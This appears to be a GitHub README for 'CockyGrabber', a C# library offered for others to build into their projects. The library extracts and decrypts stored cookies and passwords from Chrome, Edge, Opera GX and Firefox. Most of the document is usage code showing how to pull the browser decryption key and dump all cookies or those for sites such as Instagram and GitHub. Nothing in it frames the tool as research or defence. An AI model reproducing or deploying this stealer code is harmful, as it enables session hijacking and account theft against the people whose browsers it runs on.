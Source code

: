 #### 💣 Old CockyGrabber got deleted by TheBackdoor - Made by TheBackdoor and me 💣

# CockyGrabber
A Browser Cookies & Passwords Grabber C#.NET Library that you can itegrate in your Projects.
*(More Supported Browsers in Future!)*

## Download: 

For download all necessary packages, you can do from nuget with searching `CockyGrabber` and download the 1.2.0 version. once done, just download the library from the last [release](https://github.com/Stanley-GF/CockyGrabber/releases/download/2.1.0/webGrabber.dll).

## Usage:
**Import Cockygrabber classes:**</br>
It's not necessary but it will look better if you import CockyGrabber:
```cs
using CockyGrabber;
using Cookie = CockyGrabber.Classes.Cookie;
```
</br>
then you will need to import a few packages to make CockyGrabber work

```cs
using System.Data.SQLite; // link: https://www.nuget.org/packages/System.Data.SQLite/
using Newtonsoft.Json; // link: https://www.nuget.org/packages/Newtonsoft.Json/
using System.Security.Cryptography.ProtectedData; // link: https://www.nuget.org/packages/System.Security.Cryptography.ProtectedData
using BouncyCastle; // link: https://www.nuget.org/packages/BouncyCastle/
```


</br>
</br>

**Getting The Key to decrypt cookies:**</br>
First you need to get a Key to decrypt the Cookies.

Replace `[GrabberClass]` with the Cookie Grabber Class you want to use (OperaGxGrabber/ChromeGrabber. Firefox doesn't need a key because it don't encrypts cookies)
```cs
[GrabberClass] grabber = new [GrabberClass]
byte[] keyToDecryptEncrypedDB = grabber.GetKey();
```
</br>
</br>

**Grabbing Cookies:**</br>
Cookie Grabbing with CockyGrabber is *REALLY EASY*.
</br>
</br>
*Cookie Hostname examples: ".instagram.com" for instagram cookies, ".github.com" for github cookies, ".stackoverflow.com" for stackoverflow cookies, ...*
</br>
</br>
</br>


Firefox Cookie Grabbing:

```cs
FirefoxGrabber grabber = new FirefoxGrabber();

// Get cookies by hostname:
foreach(Cookie cookie in grabber.GetCookiesByHostname(".instagram.com"))
{
    string cookieHostname = cookie.HostName;
    string cookieName = cookie.Name;
    string cookieValue = cookie.Value;
    Console.WriteLine($"{cookieHostname} = {cookieName}: {cookieValue}");
}

// Get All cookies:
foreach(Cookie cookie in grabber.GetAllCookies())
{
    string cookieHostname = cookie.HostName;
    string cookieName = cookie.Name;
    string cookieValue = cookie.Value;
    Console.WriteLine($"{cookieHostname} = {cookieName}: {cookieValue}");
} 
```
</br>
</br>

Chrome Cookie Grabbing:
</br>
Since Chrome cookie values are encrypted with BLOB, we need a key to decrypt the data. (I defined the key on line 21, README.md)
</br>

```cs
ChromeGrabber grabber = new ChromeGrabber();

// Get cookies by hostname:
foreach(Cookie cookie in grabber.GetCookiesByHostname(".instagram.com", keyToDecryptEncrypedDB))
{
    string cookieHostname = cookie.HostName;
    string cookieName = cookie.Name;
    string cookieValue = cookie.Value;
    Console.WriteLine($"{cookieHostname} = {cookieName}: {cookieValue}");
}

// Get All cookies:
foreach(Cookie cookie in grabber.GetAllCookies(keyToDecryptEncrypedDB))
{
    string cookieHostname = cookie.HostName;
    string cookieName = cookie.Name;
    string cookieValue = cookie.Value;
    Console.WriteLine($"{cookieHostname} = {cookieName}: {cookieValue}");
}
```

</br>
</br>

OperaGx Cookie Grabbing:
</br>
OperaGx also encrypts cookies so you need a key here too.
</br>

```cs
OperaGxGrabber grabber = new OperaGxGrabber();

// Get cookies by hostname:
foreach(Cookie cookie in grabber.GetCookiesByHostname(".instagram.com", keyToDecryptEncrypedDB))
{
    string cookieHostname = cookie.HostName;
    string cookieName = cookie.Name;
    string cookieValue = cookie.Value;
    Console.WriteLine($"{cookieHostname} = {cookieName}: {cookieValue}");
}

// Get All cookies:
foreach(Cookie cookie in grabber.GetAllCookies(keyToDecryptEncrypedDB))
{
    string cookieHostname = cookie.HostName;
    string cookieName = cookie.Name;
    string cookieValue = cookie.Value;
    Console.WriteLine($"{cookieHostname} = {cookieName}: {cookieValue}");
}
```
</br>
</br>

Edge Cookie Grabbing:
</br>
Edge also encrypts cookies so you need a key here too.
</br>

```cs
EdgeGrabber grabber = new EdgeGrabber();

// Get cookies by hostname:
foreach(Cookie cookie in grabber.GetCookiesByHostname(".instagram.com", keyToDecryptEncrypedDB))
{
    string cookieHostname = cookie.HostName;
    string cookieName = cookie.Name;
    string cookieValue = cookie.Value;
    Console.WriteLine($"{cookieHostname} = {cookieName}: {cookieValue}");
}

// Get All cookies:
foreach(Cookie cookie in grabber.GetAllCookies(keyToDecryptEncrypedDB))
{
    string cookieHostname = cookie.HostName;
    string cookieName = cookie.Name;
    string cookieValue = cookie.Value;
    Console.WriteLine($"{cookieHostname} = {cookieName}: {cookieValue}");
}
```
</br>
</br>

## End
</br>
Yea thats it for now. Fork/Star/Watch this repo to dont miss new releases!
</br>
</br>
If you want to script with me then create a Issue!
</br>
---
</br>

If you found any **Bugs** then please create a Issue!

